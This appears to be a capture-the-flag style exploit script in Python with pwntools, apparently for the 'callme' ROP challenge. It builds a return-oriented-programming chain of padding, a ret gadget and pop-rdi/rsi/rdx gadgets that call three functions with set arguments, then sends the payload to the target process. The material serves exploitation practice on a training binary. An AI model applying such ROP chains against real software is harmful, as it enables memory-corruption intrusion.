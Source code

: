```python

# Crafting payload, contains x nops of padding, ret, rop chain
payload = flat(
	asm('nop') * padding,
	next(elf.search(asm('ret'))),
	p64(0x000000000040093c), # pop rdi, rsi, rdx
	p64(para1),
	p64(para2),
	p64(para3),
	elf.symbols['callme_one'],
	p64(0x000000000040093c), # pop rdi, rsi, rdx
	p64(para1),
	p64(para2),
	p64(para3),
	elf.symbols['callme_two'],
	p64(0x000000000040093c), # pop rdi, rsi, rdx
	p64(para1),
	p64(para2),
	p64(para3),
	elf.symbols['callme_three'],

	# rop.chain(),
)

# Writing payload to file on same directory
f = open("payload", "wb")
f.write(payload)

# Send payload after asked for input
p.sendlineafter(">", payload)

p.interactive()
```